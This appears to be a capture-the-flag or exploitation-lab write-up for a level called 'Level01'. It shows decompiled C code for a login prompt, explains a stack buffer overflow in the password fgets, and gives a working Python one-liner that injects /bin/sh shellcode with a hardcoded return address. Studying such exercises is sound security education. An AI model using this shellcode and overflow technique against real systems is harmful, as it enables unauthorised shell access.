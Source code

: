 
# Level01
## Code
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

char username[100];

int verify_user_name()
{
  puts("verifying username....\n");
  return memcmp(username, "dat_wil", 7) != 0;
}

int verify_user_pass(const void *a1)
{
  return memcmp(a1, "admin", 5) != 0;
}

int main(int argc, const char **argv, const char **envp)
{
    char s[64];
    int  exists; 

    memset(s, 0, sizeof(s));
    exists = 0;
    puts("********* ADMIN LOGIN PROMPT *********");
    printf("Enter Username: ");
    fgets(username, 256, stdin);
    exists = verify_user_name();
    if (exists)
    {
        puts("nope, incorrect username...\n");
    }
    else
    {
        puts("Enter Password: ");
        fgets(s, 100, stdin);
        exists = verify_user_pass(s);
        puts("nope, incorrect password...\n");
    }
    return 1;
}
```
## Explanation
- This program asks for a username and a password.

- When decompiling the code, we can easily see what it expects as username and password, respectivey "dat_wil" and "admin"

- The problem is that the return of the function `verify_user_pass()` doesn't change anything, the program will print `"nope, incorrect password..."` no matter what you give it.

- But the interesting part is that the `fgets()` for the password writes up to 100 bytes in a 64 bytes buffer, therefore we can easily overflow this to reach the return address of the `main()` function.

- Thanks to https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/ , we managed to find the offset of the return address by provoking a segfault with gdb. This offset is 80 bytes.

- So all we had to do was give "dat_wil" as username and a shellcode followed by the necessary amount of random bytes to reach the offset of 80, followed by the address of our string buffer as password.
## Exploit

```
(python -c'print "dat_wil"' ; python -c'print "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 56 + "\xec\xd6\xff\xff"' ; cat)  | ./level01
```

